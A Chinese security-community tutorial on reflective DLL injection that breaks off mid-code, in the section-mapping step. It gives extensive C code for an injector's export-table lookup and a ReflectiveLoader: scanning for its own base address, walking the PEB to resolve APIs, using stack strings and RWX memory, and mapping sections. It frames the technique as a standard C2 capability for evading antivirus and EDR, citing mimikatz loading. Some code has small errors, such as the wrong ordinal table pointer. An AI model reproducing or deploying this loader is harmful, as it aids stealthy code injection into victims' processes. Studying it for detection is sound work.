






# 自举的代码幽灵——反射DLL注入（Reflective DLL Injection）-先知社区

> **来源**: https://xz.aliyun.com/news/17089  
> **文章ID**: 17089

---

# 一、前言

> 反射注入揭示了计算机安全最深邃的哲学命题：防御者固守的"进程-文件-注册表"三维认知框架，便暴露了对抗高维攻击的致命缺陷，DLL始终以内存碎片的形态存在，杀毒软件的磁盘扫描如同在沙漠寻找特定沙粒，通过反射加载器构建的隧道，DLL的初始化如同超距作用般跳过标准生命周期。即使过去了十几年，反射DLL注入依旧是被攻击者广泛使用的高级注入技术。

​

`反射DLL注入`是让某个进程主动加载指定的dll的技术，而不依赖windows提供的loadlibraryA函数。常规的dll注入技术使用LoadLibraryA函数来使被注入进程加载指定的dll。这样使得常规dll注入技术在受害者主机上留下痕迹较大，很容易被edr等安全产品检测到。由于是自实现PE文件映射到内存，所以需要对PE文件结构和文件映射流程有比较深刻的理解。

`反射DLL注入` 特别特别的重要几乎是现代C2的标配，免杀效果良好，如果一个远控不能实现实现反射dll注入，就不能称之为c2。在分析sliver和cs源码时，我就看到一些敏感操作，如mimikatz是由反射dll注入的方式实现的，shellcode无文件落地，规避效果优秀。

由于 `反射DLL注入` 实在太过重要了，我将在下文花费大量笔墨来介绍 `反射DLL注入` 的原理和代码实现。

`反射DLL注入` 与常规的dll注入的大致步骤差不多，对于 `Inject` 其关键的差异是不通过LoadLibraryA+GetProcAddress来获得恶意DLL中的ReflectiveLoader函数。对于恶意DLL，自关键是实现DLL文件自加载，而我们文章也会重点围绕**ReflectiveLoader**的实现来展开。

# 二、Inject的原理和代码实现

**大致步骤**：

1. 打开DLL文件，获得DLL的大小
2. 创建本地堆空间，当然也可以用一个数组来当缓冲区
3. 读取文件内容到本地堆空间
4. 开目标进程，获得其句柄
5. 申请一块保护属性为PAGE\_EXECUTE\_READWRITE的内存空间，将dll文件写入进去
6. 获取 ReflectLoader 在目标进程内存中的地址
7. 调用 ReflectLoader 函数

前5步相对简单，是很常规的利用Windows API将DLL文件先读到本地缓冲中，然后再写到目标进程的内存空间中。从我们的大致步骤中可以看到，我们并没有使用LoadLibraryA加载DLL，而是直接将DLL文件读取到内存中，此时的DLL文件还没有进行映射操作，还是保持着磁盘文件的形式。

直接将DLL读取到内存中会导致我们不能使用GetProcAddress获得ReflectLoader函数，所以 `Inject` 的核心是找到ReflectLoader的地址。

怎么找ReflectLoader的地址呢？首先明白一点，ReflectLoader是DLL的导出函数，其函数的相关信息存放在导出表中，但是这又会存在一个问题，因为此时DLL在内存是以磁盘文件的形式存在的，导出表的偏移地址是RVA，导出表里的函数的地址也是RVA，因此我们需要写一个函数将RVA->文件偏移地址。

RVA->文件偏移地址的公式：`文件偏移 = 节区文件起始地址（PointerToRawData） + （RVA - 节区虚拟起始地址（VirtualAddress））`

由这个公式可以编写出 `RVAtoFileOffset` 函数

```
//作用：RVA->文件偏移地址
//公式：文件偏移 = 节区文件起始地址（PointerToRawData） + （RVA - 节区虚拟起始地址（VirtualAddress））
DWORD RVAtoFileOffset(DWORD RVA, PIMAGE_NT_HEADERS pNtHeader, PIMAGE_SECTION_HEADER pSec) {
    
    // 遍历节区表
    DWORD SectionNumber = pNtHeader->FileHeader.NumberOfSections;
    for (int i = 0; i < SectionNumber; i++) {
        // 检查RVA是否在当前节区的范围内
        if (RVA >= pSec[i].VirtualAddress && RVA < pSec[i].VirtualAddress + pSec[i].SizeOfRawData) {
            // 转换RVA到文件偏移地址
            return pSec[i].PointerToRawData + (RVA - pSec[i].VirtualAddress);
        }
    }
    // 如果未找到对应的节区，返回无效值
    return 0xFFFFFFFF;
}
```

有了 `RVAtoFileOffset` 函数我们就可以着手编写获取 ReflectLoader 在目标进程内存中的地址的 `GetProcAddrByName` 函数了

`GetProcAddrByName` 函数的核心就是遍历导出表，获得导出函数名，与指定函数名 （在本例中是 `ReflectLoader`） 进行比对，成功就结束循环，这个函数与下文的 `GetApiAddressByName` 逻辑类似，只是 `GetProcAddrByName` 适用以磁盘文件的形式的DLL。具体看下面的代码

```
//作用：该函数通过导出表获得指定函数的地址
LPVOID GetProcAddrByName(LPVOID lpRemoteLibraryBuffer, const char* funcName, LPVOID pBuf){

    //定位一些相关文件头
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBuf;
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((BYTE*)pBuf + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSec = (PIMAGE_SECTION_HEADER)((LPBYTE)pNtHeader + sizeof(IMAGE_NT_HEADERS));

    //获取导出表地址及大小，注意这里是RVA
    DWORD exportDirRVA = pNtHeader->OptionalHeader.DataDirectory[0].VirtualAddress;
    DWORD exportDirSize = pNtHeader->OptionalHeader.DataDirectory[0].Size;

    //定位导出表
    //得到的偏移地址是RVA，但是咱们的文件现在只是磁盘文件,所以需要转换为文件偏移
    DWORD exportDirFileOffset = RVAtoFileOffset((DWORD)exportDirRVA, pNtHeader, pSec);

    //转换之后RVA就变成了文件偏移，然后再定位
    PIMAGE_EXPORT_DIRECTORY pExportDir = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)pBuf + exportDirFileOffset);

    //解析导出表，这里同理都是RVA
    DWORD pRNames = pExportDir->AddressOfNames;
    DWORD pFNames = RVAtoFileOffset(pRNames, pNtHeader, pSec);
    DWORD* pNames = (DWORD*)((PBYTE)pBuf + pFNames);

    DWORD pRFunctions = pExportDir->AddressOfFunctions;
    DWORD pFFunctions = RVAtoFileOffset(pRFunctions, pNtHeader, pSec);
    DWORD* pFunctions = (DWORD*)((PBYTE)pBuf + pFFunctions);

    WORD pRNameOrdinals = pExportDir->AddressOfNameOrdinals;
    WORD pFNameOrdinals = RVAtoFileOffset(pRNameOrdinals, pNtHeader, pSec);
    WORD* pNameOrdinals = (WORD*)((PBYTE)pBuf + pFFunctions);

    // 遍历查找目标函数
    DWORD funcRVA = 0;
    for (DWORD i = 0; i < pExportDir->NumberOfNames; i++) {
        DWORD functionNameRVA = pNames[i];
        DWORD functionNameFileOffset = RVAtoFileOffset(functionNameRVA, pNtHeader, pSec);
        const char* pName = (char*)((PBYTE)pBuf + functionNameFileOffset);
        if (strcmp(pName, funcName) == 0) {
            funcRVA = pFunctions[i];
            break;
        }
    }
    if (funcRVA == 0) {
        printf("
[-] Function %s not found.", funcName);
        return NULL;
    }

    DWORD fileOffset = RVAtoFileOffset(funcRVA, pNtHeader, pSec);;
    DWORD* pfileOffset = (DWORD*)((PBYTE)pBuf + fileOffset);
    if (fileOffset == 0) {
        printf("
[-] Failed to convert RVA to file offset.");
        return NULL;
    }

    // 返回函数的地址
    LPVOID remoteFuncAddr = (LPBYTE)lpRemoteLibraryBuffer + fileOffset;
    return remoteFuncAddr;
}
```

# 三、ReflectiveLoader的原理和代码实现

[VS中调试DLL工程的正确方法\_vs debug dll-CSDN博客](https://blog.csdn.net/cqzdl/article/details/107932463)

`反射DLL注入` 的实现实在太多了，我就挑选用几个比较知名的项目拼凑出一个属于我的反射dll注入的项目（bushi=。=），让我们一起去分析源码，来窥探 `反射DLL注入` 的奥秘吧

在具体介绍实现原理之前，我们首先来看看 `ReflectiveLoader` 实现大致实现思路，有一个比较明确的方向，且接下来我都会根据每一步详细展开：

1. **暴力搜索DLL的基址**
2. **获取所需要的Windows API**
3. **加载 PE 文件节到内存**
4. **修复重定位表**
5. **修复导入表**
6. **获取dllmain的地址，执行dllmain**

关键步骤就这几步，其实还可以添加额外的几个步骤，比如说**修复延迟导入表**、**修改节的保护属性**、**执行TLS回调函数**等

> **补充**：  
> `TLS回调函数`是在程序或DLL加载和卸载时自动调用的函数，通常用于初始化或清理线程本地存储的数据。
>
> `在反射DLL注入中，执行TLS回调函数的作用`：遍历并执行所有注册的TLS回调函数，通知它们进程附加的事件，从而进行必要的初始化工作，这一步常见于SRDI中，即DLL转换为自加载的Shellcode。

## 3.1  暴力搜索DLL的基址

由于 `Inject` 将带有 `ReflectiveLoader` 的DLL加载于内存中的任意位置（ASLR防护），因此 `ReflectiveLoader` 将首先计算其自身Image在内存中的当前位置，即ImageBase，以便能够解析自己的PE头部，即DOS头、NT头，以供以后使用。

其实这一步也是看具体情况来决定是否要实现，比如说在 [monoxgas/sRDI：反射 DLL 注入的 shellcode 实现。将 DLL 转换为与位置无关的 shellcode](https://github.com/monoxgas/sRDI) 中，通过 `Inject` 来传递DLL的基址也是一种比较常规的做法，而我将跟随Stephen Fewer的思想，自实现暴力搜索DLL的基址。

在Stephen Fewer的项目中，我们可以看到他为了使项目可以在多平台多架构上通用，定义了一些的宏定义



我不想实现这样的宏定义，然后参考了几篇文章之后了解到，使用这样的方式

```
ULONG_PTR uiLibraryAddress = (ULONG_PTR)ReflectiveLoader; 
```

可以获取 `ReflectiveLoader` 函数运行时在DLL中的地址。大致了解过进程的内存布局的人都会知道，`ReflectiveLoader` 函数通常位于代码段（.text），而DOS头位于 `ReflectiveLoader` 的后面（低地址区域），所以我们可以通过 `ReflectiveLoader` 的地址从前往后逐地址去验证DOS头部和NT头部，直到找到  
DLL的基址，即DOS头部地址。



怎么验证DOS头和NT头呢？DOS头的签名是 `0x5A4D（小端序）`，即 `“MZ”` 字符串；NT头的签名是 `0x00004550（小端序）`，即 `“PE00”`，可以用010 editor随便看一个pe文件



知道原理之后，我们尝试实现第一步的代码

```
/*---------------------第一步：暴力搜索DLL的基址---------------------------------*/

// 获得ReflectiveLoader函数的地址，如果找到了DLL基址，则将其存储到uiLibraryAddress，pNtHeader就是NT头的地址
ULONG_PTR uiLibraryAddress = (ULONG_PTR)ReflectiveLoader;   
ULONG_PTR uiHeaderValue = 0;                             
PIMAGE_NT_HEADERS pNtHeader = 0;

// 从ReflectiveLoader函数的地址往回退，直到找到DLL的基址
while (TRUE)
{
    // 验证是否为DOS头
    if (((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_magic == IMAGE_DOS_SIGNATURE)
    {
        // 验证是否为NT头
        uiHeaderValue = ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
        if (uiHeaderValue >= sizeof(IMAGE_DOS_HEADER) && uiHeaderValue < 1024)
        {
            pNtHeader = (PIMAGE_NT_HEADERS)(uiHeaderValue + uiLibraryAddress);
            if (pNtHeader->Signature == IMAGE_NT_SIGNATURE)
                break;
        }
    }
    uiLibraryAddress--;
}

if (!uiLibraryAddress)
    return FALSE;
```

## 3.2 获取所需要的Windows API

因为我们的DLL不是通过系统加载到内存中的，所以DLL的导入表是未修复的状态，我们就不可以使用API，但是在 `复制PE头和节到新内存区域` 中需要用到VirtualAlloc ，在 `修复导入表` 中需要用到LoadLibraryA+GetProcAddress，所以需要解析主机进程kernel32.dll导出表，获取所需要API的地址。

为了实现这一目标，我就自实现了一个可以根据DLL的名称和API名称获取API函数地址的 `GetApiAddressByName` 函数。该函数大致原理如下

1. 获取PEB的地址
2. 获取LDR的地址
3. 遍历已加载模块列表，查找目标DLL。
4. 解析目标DLL的PE结构，定位导出表。
5. 遍历导出表，查找目标API名称。
6. 返回找到的函数地址或NULL。

一句话总结就是遍历peb结构体中的ldr成员中的InMemoryOrderModuleList链表获取dll名称，遍历函数所在的dll导出表获得必要的函数的名称，如果匹配成功就返回目标函数的地址。

为了实现 `GetApiAddressByName`，还需要实现几个辅助函数，它们分布是`my_towlower`、`MyCompareStringW`、`MyCompareStringA`、`ExtractDllName`

我简要的说一下它们的作用

1. `my_towlower`：将宽字符从大写转换小写，是用于辅助 `MyCompareStringW` 函数的
2. `MyCompareStringW`：不区分大小写的宽字符串比较。这主要查找目标DLL，因为我们的DLL名称是宽字符串表示的
3. `MyCompareStringA`: ASCII字符串比较函数。这主要用于查找目标API名称，因为微软的API是ASCII字符串表示的
4. `ExtractDllName`：因为 `LDR_DATA_TABLE_ENTRY` 这个结构体的 `FullDllName.Buffer` 字段表示的是完整的DLL路径，我们需要从DLL路径中提取出DLL名称  
    `自定义宽字符转小写` my\_towlower` 函数

```
// 自定义宽字符转小写（简化版 Unicode 支持）
wchar_t my_towlower(wchar_t c) {
    // 基础拉丁字母（A-Z）直接转换
    if (c >= L'A' && c <= L'Z') {
        return c + 32;
    }

    // 拉丁扩展-A 大写字母（如 À, È, Ê 等）
    if (c >= 0xC0 && c <= 0xDE && c != 0xD7) { // 0xC0(À)~0xDE(Þ), 排除 0xD7(×)
        return c + 32;
    }

    // 特殊字符单独处理
    switch (c) {
    case L'İ': return L'i';    // 土耳其语 İ → i
    case L'Σ': return L'σ';    // 希腊大写 Sigma → 小写 sigma
    case L'Ϊ': return L'ϊ';    // 希腊大写 Iota with dialytika
        // 可在此添加更多特殊字符映射...
    }

    // 其他字符直接返回（视为无小写形式）
    return c;
}
```

不区分大小写的宽字符串比较函数`MyCompareStringW`

```
// 不区分大小写的宽字符串比较函数（不修改原始字符串）
bool MyCompareStringW(const wchar_t* str1, const wchar_t* str2) {
    // 空指针检查
    if (str1 == NULL || str2 == NULL) return false;

    size_t i = 0;
    // 动态转换并比较字符，无需修改原始字符串
    while (str1[i] != L'\0' && str2[i] != L'\0') {
        wchar_t c1 = my_towlower(str1[i]);
        wchar_t c2 = my_towlower(str2[i]);

        if (c1 != c2) return false;
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == L'\0' && str2[i] == L'\0');
}
```

ASCII字符串比较函数 `MyCompareStringA`

```
// ASCII字符串比较函数
bool MyCompareStringA(CHAR str1[], CHAR str2[]) {


    int i = 0;
    while (str1[i] && str2[i]) {

        if (str1[i] != str2[i]) {
            return false;
        }
        i++;
    }

    // 必须同时到达字符串结尾才算相等
    return (str1[i] == '\0' && str2[i] == '\0');
}
```

提取 DLL 名称的函数`ExtractDllName`

```
// 提取 DLL 名称的函数
wchar_t* ExtractDllName(const wchar_t* fullDllName) {
    wchar_t* fileName = NULL;
    wchar_t* temp = (wchar_t*)fullDllName;

    // 遍历并找到最后一个 '\'，获取文件名部分
    while (*temp) {
        if (*temp == L'\') {
            fileName = temp + 1;  // 更新文件名的位置
        }
        temp++;
    }

    // 如果没有找到 '\'，则认为整个字符串就是文件名
    if (!fileName) {
        fileName = (wchar_t*)fullDllName;
    }

    return fileName;
}
```

`GetApiAddressByName`的实现如下

```
FARPROC GetApiAddressByName(wchar_t* TargertDllName, char* ApiName) {
    
    // 从获取 PEB 地址
    PPEB pPEB = (PPEB)__readgsqword(0x60);

    // 获取 PEB.Ldr
    PPEB_LDR_DATA pLdr = pPEB->Ldr;

    // 遍历模块列表
    PLIST_ENTRY pListHead = &pLdr->InMemoryOrderModuleList;
    PLIST_ENTRY pCurrentEntry = pListHead->Flink;
    while (pCurrentEntry && pCurrentEntry != pListHead) {
        PLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(pCurrentEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

        if (pEntry && pEntry->FullDllName.Buffer) {

            wchar_t* fullDllPath = pEntry->FullDllName.Buffer;

            // 提取 DLL 名称
            wchar_t* CurrentDllName = ExtractDllName(fullDllPath);

            // 比较 DLL 名称（不区分大小写）
            if (MyCompareStringW(CurrentDllName, TargertDllName)) {
                // 找到目标 DLL
                HMODULE hModule = (HMODULE)pEntry->DllBase;

                // 分析 PE 文件找到导出表
                PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + ((PIMAGE_DOS_HEADER)hModule)->e_lfanew);
                PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule +
                    pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

                // 获取导出表的各个信息
                DWORD* pFunctionNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
                DWORD* pFunctionAddresses = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
                WORD* pFunctionOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

                // 遍历导出表，查找目标函数
                for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
                    char* functionName = (char*)((BYTE*)hModule + pFunctionNames[i]);

                    // 找到函数名，获取其地址
                    if (MyCompareStringA(functionName, ApiName)) {
                        return (FARPROC)((BYTE*)hModule + pFunctionAddresses[pFunctionOrdinals[i]]);
                    }
                }

                // 如果遍历完导出表未找到函数，返回 NULL
                return NULL;
            }
        }

        pCurrentEntry = pCurrentEntry->Flink;
    }

    return NULL; // 未找到模块
}
```

现在，`获取所需要的Windows API` 这一步骤的所有函数都准备好了，还有一点需要明确，就是我们的节区并没有映射到内存中，如果我们使用类似 `CHAR VirtualAlloc[] = "VirtualAlloc";` 的常量字符串，这些字符串是保存在 .rdata 中的,在未完成映射时，我们是无法访问到的，所以我们需要将常量字符串改成栈字符串，以将字符串保存到 .text 中，将字符串改成函数内数组就会以栈保存了。

`CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };` 是这样存放的


而 `CHAR VirtualAlloc[] = "VirtualAlloc";` 这样存放的


我们开始正式的获取所需要的API

```
/*---------------------第二步：获取所需要的Windows API---------------------------*/

// 定义API指针类型
typedef FARPROC(WINAPI* GETPROCADDR)(HMODULE hModule, LPCSTR  lpProcName);
typedef HMODULE(WINAPI* LOADLIBRARYA)(LPCSTR lpLibFileName);
typedef LPVOID(WINAPI* VIRTUALALLOC)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);

// 声明API指针变量
GETPROCADDR pGetProcAddress = NULL;
LOADLIBRARYA pLoadLibraryA = NULL;
VIRTUALALLOC pVirtualAlloc = NULL;

// 将字符串拆分为字符数组，嵌入代码段
// 优化：这里可以将字符串用自定义哈希算法得到唯一值，我这里就不用了，具体看我给的参考资料
WCHAR kernel32[] = { 'K', 'e', 'r', 'n', L'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
WCHAR ntdll[] = { 'n', 't', 'd', 'l', 'l', '.', 'd', 'l', 'l', '\0' };
CHAR virtualAlloc[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'A', 'l', 'l', 'o', 'c', '\0' };
CHAR loadLibraryA[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };
CHAR getProcAddress[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s','\0' };

// 获取API的地址，将其存储在API指针变量中
pGetProcAddress = (GETPROCADDR)GetApiAddressByName(kernel32, getProcAddress);
pLoadLibraryA = (LOADLIBRARYA)GetApiAddressByName(kernel32, loadLibraryA);
pVirtualAlloc = (VIRTUALALLOC)GetApiAddressByName(kernel32, virtualAlloc);

if (!pLoadLibraryA || !pGetProcAddress || !pVirtualAlloc)
{
    return FALSE;
}
```

## 3.3 加载 PE 文件节到内存

这一步骤相对简单，需要用VirtualAlloc申请一块RWX的保护属性、`SizeOfImage` 大小的内存区域，然后逐字节将所有头部信息复制到新内存区域，大小为 `SizeOfHeaders`。

> **补充**  
> `SizeOfHeaders`：这是 PE 文件头（`IMAGE_OPTIONAL_HEADER` 结构）中的一个字段，表示 **所有头部结构的总大小**。  
> 的  
> `SizeOfImage`：这是 `IMAGE_OPTIONAL_HEADER` 中的另一个字段，表示 **整个 PE 映像（Image）加载到内存后的总大小**

复制完所有头部信息后，我们就要开始将PE文件映射到内存里。回想一下，我们在 `Inject` 中是将DLL以文件的形式读取到内存中的，并没有进行映射，所以我们模拟系统的加载器进行映射就需要用到 `IMAGE_SECTION_HEADER` 的四个字段，一个是 `SizeOfRawData`、`PointerToRawData`、`VirtualAddress`、`VirtualSize`

1. `PointerToRawData`：节区数据在 **磁盘文件** 中的偏移量
2. `SizeOfRawData`：节区数据在 **磁盘文件** 中占用的实际大小
3. `VirtualAddress`：节区加载到**内存**后的 相对虚拟地址（RVA）
4. `VirtualSize`：节区在 **内存** 中占用的实际大小

我们就根据这四个字段将PE节一一映射到新内存中，具体看下面的代码

```
/*---------------------第三步：加载 PE 文件节到内存---------------------*/

//获取磁盘文件的DOS头
PIMAGE_DOS_HEADER pDOSheader = (PIMAGE_DOS_HEADER)uiLibraryAddress;

//给内存分配空间，并对BaseAddress进行初始化
DWORD ImageSize = pNtHeader->OptionalHeader.SizeOfImage;  //内存空间大小
PBYTE BaseAddress = (PBYTE)pVirtualAlloc(NULL, ImageSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (BaseAddress == NULL) return FALSE;

// 手动实现 CopyMemory 的功能
BYTE* dst = (BYTE*)BaseAddress;                          // 目标内存地址
BYTE* src = (BYTE*)uiLibraryAddress;                     // 源内存地址
size_t size = pNtHeader->OptionalHeader.SizeOfHeaders;   // 需要复制的字节数

// 逐字节复制
for (size_t i = 0; i < size; ++i) {
    dst[i] = src[i];                                     
}

// 复制节区表
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNtHeader);  // 获取第一个节区头（节表起始位置）

// 获取总节区数量（从 NT 头的 FileHeader 中读取）
DWORD SectionNumber = pNtHeader->FileHeader.NumberOfSections;

// 遍历所有节区
for (int i = 0; i < SectionNumber; i++) {

    // 跳过没有原始数据或文件偏移为 0 的节区（例如 .bss 节）
    if (pSectionHeader->SizeOfRawData == 0 || pSectionHeader->PointerToRawData == 0) {
        pSectionHeader++;
        continue;
    }

    // 计算PE节在磁盘文件中的位置和在新内存中的位置，并将磁盘文件中的节复制到新内存中
    BYTE* chSrcMem = (BYTE*)((ULONG_PTR)uiLibraryAddress + (DWORD)(pSectionHeader->PointerToRawData));
    BYTE* chDestMem = (BYTE*)((ULONG_PTR)BaseAddress + (DWORD)(pSectionHeader->VirtualAddress));
    DWORD dwSizeOfRawData = pSectionHeader->SizeOfRawData;
    DWORD dwVirtualSize = pSectionHeader->Misc.VirtualSize;
    for (DWORD j = 0; j < dwSizeOfRawData; j++) {
        chDestMem[j] = chSrcMem[j];
    }

    // 如果内存中的节区大小 > 文件中的原始数据大小，需要填充剩余空间
    if (dwVirtualSize > dwSizeOfRawData) {
        BYTE* start = chDestMem + dwSizeOfRawData;
        BYTE* end = chDestMem + dwVirtualSize;
        while (start < end) {
            *start++ = 0;
        }
    }
